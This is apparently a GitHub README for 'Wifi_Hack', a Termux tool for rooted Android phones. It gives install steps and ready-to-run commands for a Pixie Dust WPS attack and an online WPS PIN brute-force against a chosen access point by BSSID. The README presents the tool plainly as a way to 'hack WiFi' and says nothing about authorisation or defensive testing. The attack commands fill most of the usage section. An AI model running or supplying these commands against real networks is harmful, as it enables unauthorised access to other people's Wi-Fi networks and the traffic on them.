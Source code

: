## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src=".assets/demo.png"></p>

### Installation :

```bash
pkg update && apt upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/wifi_hack
cd wifi_hack
chmod +x wifi.py
sudo python wifi.py --help
```
#### Help : `sudo python wifi.py --help`
#### Example : `sudo python wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@
